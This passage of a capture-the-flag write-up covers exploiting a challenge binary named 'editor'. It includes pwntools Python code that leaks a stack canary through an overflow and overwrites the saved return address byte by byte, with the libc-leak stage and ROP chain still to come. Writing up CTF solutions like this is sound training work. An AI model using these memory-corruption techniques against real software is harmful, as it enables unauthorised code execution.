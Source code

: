 We're going to need a canary and libc leak, after that we can write out a ROP chain.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./editor')

if args.REMOTE:
    p = remote('editor.litctf.live', 1337)
    libc = ELF('./libc-2.31.so')
    libc_start_main_offset = 234
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc_start_main_offset = 243
    libc.symbols['gadget'] = [0xe6c7e,0xe6c81,0xe6c84][1]
```

Standard pwntools header, however a ROP chain didn't work for me locally (_one\_gadget_ did), however _one\_gadget_ did not work remotely, only a ROP chain.  Locally I was getting a stack alignment issue.  Testing _one\_gadget_ was quick enough to get the PoC done.  I did have other options to make it work locally with a ROP chain, e.g. jumping to `main` or `main+1` vs. `_start` or sucking it up and messing with that horrible buildit editor to get one more line out.  But why waste the time?  I got the flag already.

```python
## round 1 leak canary
# leak canary
p.sendafter(':\n',(0x98-0x10+1) * b'A')
p.sendlineafter('?\n','2')
p.recvline()
p.recvline()
p.recv(0x98-0x10+1)
canary = u64(b'\0' + p.recv(7))
log.info('canary: ' + hex(canary))

# reset intialized
p.sendlineafter('?\n','1')
p.sendlineafter('!\n',str(binary.sym.initialized - binary.sym.editbuf))
p.sendlineafter('!\n',b'\0')

# write out RBP and return address
for i in range(8 + 6):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98-0x8+i))
    p.sendlineafter('!\n',b'B')

# zero out return address
# have to do this backwards because of how edit/strcpy
for i in range(5,2,-1):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98+i))
    p.sendlineafter('!\n',b'\0')

# set return address to _start
for i in range(3):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98+i))
    payload = p8(p64(binary.sym._start)[i])
    p.sendlineafter('!\n',payload)
```